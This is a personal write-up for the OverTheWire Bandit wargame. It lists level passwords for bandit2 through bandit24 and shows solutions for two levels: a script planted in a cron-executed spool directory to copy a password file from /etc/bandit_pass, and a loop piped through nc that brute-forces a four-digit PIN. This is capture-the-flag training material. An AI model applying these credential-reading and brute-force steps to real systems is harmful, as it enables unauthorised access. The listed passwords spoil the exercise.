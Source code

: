 #Bandit Write-ups

SSH information `bandit.labs.overthewire.org -p 2220`

###bandit2
	 CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9
###bandit3
	UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK
###bandit4
	pIwrPrtPN36QITSp3EQaw936yaFoFgAB
###bandit5
###bandit6  
	DXjZPULLxYr17uwoI01bNLQbtFemEgo7
###bandit7
	HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs
###bandit8
	cvX2JJa4CFALtqS87jk27qwqGhBM9plV
###bandit9
	UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR
###bandit10
	truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk
###bandit11
	IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR
###bandit12
	5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu
###bandit13
	8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL
###bandit14
	4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e
###bandit15
	BfMYroe26WYalil77FoDi9qh59eK5xNr
###bandit16
	cluFn7wTiGryunymYOu4RcffSxQluehd
###bandit17
	see bandit17.txt 
###bandit18
	kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd
###bandit19
	IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
solved with `ssh bandit18@bandit.labs.overthewire.org -p 2220 'bash -s' < banditscript.sh `
###bandit20
	GbKksEFF4yrVs6il55v6gwY5aVje5f0j
###bandit21
	gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
###bandit22
	Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
###bandit23
	jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
###bandit24
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 
We discover a cronjob running which executes and then deletes everything in /var/spool/bandit24 every 60 seconds
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```
The challenge gives us some hints that we need to create a shell script so I create a working directory `mkdir /tmp/droogy/`

Create a executable script and empty text file our script will point towards
` touch evilscript.sh password.txt && chmod 777 ./*`

Next write the script which will populate the password file with the password for bandit24
```bash

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/droogy/password.txt

```
Now we wait (or keep spamming lol) and cat our password file
	
>UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 

###bandit24
>uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

This one was a bit tricky. 
We are given the information that a network daemon is listening on port 30002
and waiting to receive both the current password and a 4 digit pin. 
We are told explicitly we are going to need to to bruteforce this pin 
so I create a working directory and start working on a script.
```bash
#!/bin/bash
pwd=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {9999..0000}; do
	echo "$pwd $i"
done > brute.txt;
cat brute.txt | nc localhost 30002
```
This final script definitely needs some refining but showcases the flexibility of shell scripting.





 